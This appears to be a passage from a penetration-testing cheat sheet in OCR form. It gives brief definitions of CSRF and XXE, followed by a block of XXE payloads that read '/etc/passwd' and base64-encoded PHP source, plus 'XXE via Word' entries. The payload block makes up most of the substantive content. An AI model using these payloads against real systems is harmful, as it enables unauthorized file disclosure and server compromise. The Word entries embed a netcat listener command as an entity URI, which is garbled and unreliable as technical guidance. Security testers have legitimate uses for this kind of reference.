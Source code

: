 ### csrf
*Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request.*


### xxe
*XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

*In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform [server-side request forgery](https://portswigger.net/web-security/ssrf) (SSRF) attacks.*
```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=path/index.php" >
]>

<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]><title>&xxe;</title>

# XXE via Word:
<!-- word/document.xml -->
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [ <!ENTITY % pe SYSTEM "nc -nlvp 31337"> %pe; ]>
<foo>&external;</foo>

<!-- word/document.xml -->
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "nc -nlvp 31337">
]>
<r>&sp;</r>
```
# NETWORK
# SHELLS
# WINDOWS
# LINUX
# PASSWORDS & CRACKING
